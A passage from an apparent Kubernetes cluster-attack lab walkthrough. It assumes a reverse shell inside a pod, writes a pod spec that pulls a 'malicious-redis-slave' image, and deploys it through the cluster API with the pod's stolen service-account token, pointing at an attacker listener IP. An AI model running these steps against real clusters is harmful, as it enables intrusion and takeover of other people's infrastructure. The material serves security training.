 Change the value of `LISTENER_IP` with that of VM IP that can be fetched by running `vmip` or `ifconfig`

* In the reverse shell, if the `pwd` is `/run/secrets/kubernetes.io/serviceaccount` you will have to navigate to the `tmp` directory. 

```bash
cd /tmp
```

###### root user of the pod will not have permission to create/edit files in `/run/secrets/kubernetes.io/serviceaccount`

* Copy the edited JSON from the previous step and paste it in `/tmp` directory.

```bash
# Copy the JSON value you edited, please don't copy the one below
cat > mal-redis.json <<EOF
{
    "kind": "Pod",
    "apiVersion": "v1",
    "metadata": {
        "name": "mal-redis"
    },
    "spec": {
        "containers": [{
            "name": "mal-redis",
            "image": "we45/malicious-redis-slave",
            "env": [
              ... 
              ...
              ...
              ...
              }
            ]
        }]
    }
}
EOF
```

* Check if `mal-redis.json` has been created in '/tmp/'

```bash
ls
```

* Create the `malicious-redis` pod

```bash
curl -s https://10.96.0.1/api/v1/namespaces/default/pods -XPOST -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d@mal-redis.json --insecure
```

* In the other tab, navigate to `K8s-Cluster-Attack` directory and run the `tornado server`.
